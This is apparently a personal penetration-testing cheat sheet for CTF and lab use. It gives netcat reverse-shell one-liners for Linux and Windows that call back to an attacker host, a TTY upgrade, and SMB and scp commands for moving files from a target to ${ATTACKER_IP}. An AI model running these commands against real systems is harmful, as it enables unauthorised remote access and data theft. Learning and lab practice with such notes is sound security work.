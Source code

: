 # Misc: References, and other stuff

excellent summary of SSH tunneling [here](https://tryhackme.com/room/lateralmovementandpivoting)



## Shell catching, and stabilization

set up listener with: 
```
nc –nvlp ${LPORT} 
```

now, from our Linux target box we can do:

```
nc $LHOST $LPORT -e /bin/sh
```
or Windows:

```
nc.exe $LHOST $LPORT -e cmd.exe
```
Afterwards, stabilize with [this](https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal)

Gain TTY with `python3 -c 'import pty; pty.spawn("/bin/bash")'` or `python3 -c 'import pty; pty.spawn("/bin/sh")'`

## Revshells

[revshells.com](https://www.revshells.com/)

## Cross-compiling C on kali to windows

mingw-w64 is used to cross compile c files to windows exe files.
This can look something like:

`i686-w64-mingw32-gcc some-c-file.c -o out-file.exe -l ws2_32`

Where `-l ws2_32` tells `mingw32-gcc` to include the `ws2_32` DLL in the final executable with static linking. 


## Inline for loop

We want to execute some command for all machines in the file machines.txt. This can be done like so:
```
for machine in $(cat machines.txt); do; crackmapexec smb $machine ...; done;
```
(note, this is just an example, as crackmapexec in fact supports jut getting the machine IPs from a machines.txt file natively).


## File transfer


### From Windows Target to Attack box

If you find yourself on a windows shell and want to transfer files from the target to the attack box,
you can start an SMB server on the attackbox:

```
impacket-smbserver SHARE $(pwd) -smb2support -user ${SOME_USERNAME} -password ${SOME_PW}
```
(Note that this makes a public server. Only without setting user/password in CTF scenarios in private networks).


If you set the password, as seen above, from the Windows machine, mount the share like so:

```
net use S: \\${ATTACKER_IP}\SHARE /user:${SOME_USERNAME} ${SOME_PW} /persistent:yes
```

### SCP to copy

Assuming you have ssh started on your kali machine, we can do:

```
scp path/to/file ${USER}@${ATTACKER_IP}:/full/path/to/dest
```
or the other way:

```
scp ${USER}@${ATTACKER_IP}:/full/path/to/file path/to/dest
```

Works on modern windows boxes too, but requires proper interactive shell to work.



